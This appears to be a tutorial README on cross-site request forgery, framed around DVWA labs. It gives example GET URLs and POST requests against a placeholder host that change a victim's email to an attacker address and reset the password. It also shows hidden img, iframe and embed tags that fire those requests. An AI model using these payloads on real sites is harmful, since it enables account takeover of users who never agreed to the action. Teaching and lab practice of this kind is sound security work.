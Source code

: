 ## 1. CSRF Attack

![](https://portswigger.net/web-security/images/cross-site%20request%20forgery.svg)
>We will use DVWA Labs To Learn CSRF Attack


**What is CSRF Attack?**

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality. 

**Example URL (GET Method)**

```
http://target-vuln-web.com/email/change?email=attacker@anon.net
http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass
```
**Example Request (POST Method)**

```
POST /email/change HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

email=attacker@anon.net
```

```
POST user/new_password HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

password=newpass&comfirm_password=newpass
```

**Exploit CSRF Vulnerability Via HTML Injections (GET Method)**

>Using Image Tag
```
<img style="display:none;" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass">
```

>Using Iframe Tag
```
 <iframe src="" style="display:none;"></iframe> 
```

>Using Embed Tag
```
 <embed type="image/jpg" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass" style="display:none;"> 
```
